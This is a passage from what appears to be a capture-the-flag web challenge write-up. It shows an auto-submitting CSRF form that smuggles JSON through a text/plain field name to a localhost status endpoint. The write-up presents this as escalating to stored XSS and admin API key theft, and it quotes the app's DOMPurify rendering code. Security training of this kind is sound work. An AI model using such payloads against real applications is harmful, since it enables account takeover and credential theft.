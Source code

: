 Looking at the bot source we see that it first logs in as admin to the application and then it visits the provided URL. So by hosting a page that contains an HTML page like the following:

```html
<html>
  <body>
	<form action="http://127.0.0.1:80/api/updateStatus" method="POST" enctype="text/plain">
		<input type="hidden" name='{{"status": "XSS","foo' value='":"b"}}' />
	</form>
	<script>document.forms[0].submit();</script>
  </body>
</html>
```

We can cause CSRF on the bot as the admin user that will be escalated to XSS.

### XSS in "status" => Admin Key Theft

Because `/api/updateStatus` saves unescaped HTML in `$_SESSION['user']['status']`, any page rendering that status (e.g., the admin’s dashboard or the user profile) is at risk. For example:

```js
fetch('/api/user')
    .then(res => res.json())
    .then(user => {
    if (user.error) {
        window.location.href = '/login';
    } else {
        document.getElementById('apiKey').textContent = user.api_key;
        document.getElementById('userLevel').textContent = 'LVL ' + (user.level || 1);
        document.getElementById('userRank').textContent = user.rank || 'NOVICE';
        document.getElementById('userRole').textContent = (user.is_admin ? 'ADMIN' : 'USER');
        document.getElementById('magicPower').textContent = (user.magicPower || 50) + '%';
        document.getElementById('questsCompleted').textContent = user.questsCompleted || 0;
        
        const cleanStatus = DOMPurify.sanitize(user.status || 'Ready for adventure!', {
            USE_PROFILES: { html: true },
            ALLOWED_TAGS: ['a', 'b', 'i', 'em', 'strong', 'span', 'br'],
            FORBID_TAGS: ['svg', 'math'],
            FORBID_CONTENTS: ['']
        });

        document.getElementById('heroStatus').innerHTML = cleanStatus;

        const progressBar = document.querySelector('.retro-progress-bar');
        if (progressBar) {
            progressBar.style.width = (user.magicPower || 50) + '%';
        }
    }
});
```

Here we can see that the status is passed through `DOMPurify` and the set to `innerHTML`.
